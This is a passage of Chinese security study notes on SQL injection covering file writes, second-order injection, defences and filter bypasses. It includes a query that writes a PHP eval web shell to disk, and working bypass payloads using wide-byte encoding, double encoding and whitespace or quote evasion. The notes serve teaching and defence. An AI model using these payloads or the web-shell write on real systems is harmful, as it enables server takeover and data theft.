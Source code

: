 以下代码可以读写文件，不过仅限`SELECT @secure_file_priv;`指定的目录

```sql
SELECT '<?php @eval($_POST[aaa]);?>' INTO OUTFILE 'shell.php'
SELECT load_file('backup.bak')
```

### 二次注入

例如，注册用户名`admin' -- `，注册时没有发生注入，但是用该用户进行操作时，比如修改密码，

```sql
UPDATE users SET pwd='$pwd' WHERE name='$name';  -- 替换参数之前
UPDATE users SET pwd='pswd' WHERE name='admin' -- 
```

### 防护

- **预编译**、**参数化查询**：将语句和数据分离
- **过滤**
  - **`addslashes`**：PHP的`addslashes`函数将单引号、双引号、反斜杠、NULL转义为`\', \", \\, \0`。有的服务器会配置**魔术引号**（Magic Quotes），自动将外部来源（HTTP参数、读取文件、读数据库）的文本用反斜杠转义
  - **`mysql_real_escape_string`**：`addslashes`的上位替换。转义方式相同，会考虑数据库上下文
  - **字符过滤**：禁用空格、引号、注释等特殊符号
  - **关键字过滤**：用正则匹配`UNION`等常用于渗透攻击的关键字，删除它或者干脆拒绝访问（这种方法效率低、防不全，还容易把正常用户拦住）

- **内容检查**：检查参数内容，比如只允许用整数查询，或者检测到不正确日期格式就拒绝请求

### 绕过

编码：使用特殊编码、特殊转义方式，绕过网站的转义和关键字检查

- **宽字节注入**：服务器和数据库可能采用不同编码，比如可能服务器采用utf-8，数据库用gbk。GBK用2个字节表示一个汉字，可以用一个1字节长的utf-8字符”吞掉“一个字节。比如注入`%df' or 1=1`，经过魔术引号变为`%df\' or 1=1`；反斜杠的编码为`%5c`，前两个字节`%df%5c`被数据库当成一个gbk字符`運`，反斜杠被”吞掉“了。详见[宽字节注入深度讲解](https://cs-cshi.github.io/cybersecurity/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%BA%A6%E8%AE%B2%E8%A7%A3/)。若使用`mysql_real_escape_string`等安全的转义函数，且正确设置编码，便可修复此漏洞
- **二次编码注入**：进行两次百分号编码，如`' ' -> %20 -> %25%20`；对普通字符编码，如`u%6eion`。若开发者错误地在SQL参数的转义、过滤后再进行一次URI解码，可导致注入
- **替换符号**：逻辑绕过（尽量不用被过滤的关键字）+ 同义绕过（使用相同含义的其他写法）。参见[SQL注入绕过速查表](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E9%80%9F%E6%9F%A5%E8%A1%A8/sql%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E9%80%9F%E6%9F%A5%E8%A1%A8.md)

```sql
-- 空格过滤：注释/**/、其他空白符。参见速查表
-- 空格过滤：浮点数、括号、反引号（表名、列名可用反引号括起）
SELECT name FROM users WHERE id=1e0union(select`pw`from`users`where(id=1));
-- 引号过滤：数字绕过(例子中数字是admin的编码); and,or过滤：||, &&绕过。&记得转义成%26
SELECT * FROM users WHERE id=-1||name=0x61646d696e;
-- 函数式编程绕过各种运算符。下面例子判断database()第一个字符码值是否大于64
SELECT * FROM users WHERE id=-1||least(substr(database(),1,1),'a')like'a';
-- 闭合引号、括号绕过注释
SELECT * FROM users WHERE id=('0')union(select'a',database(),'b') LIMIT 0,1;
```


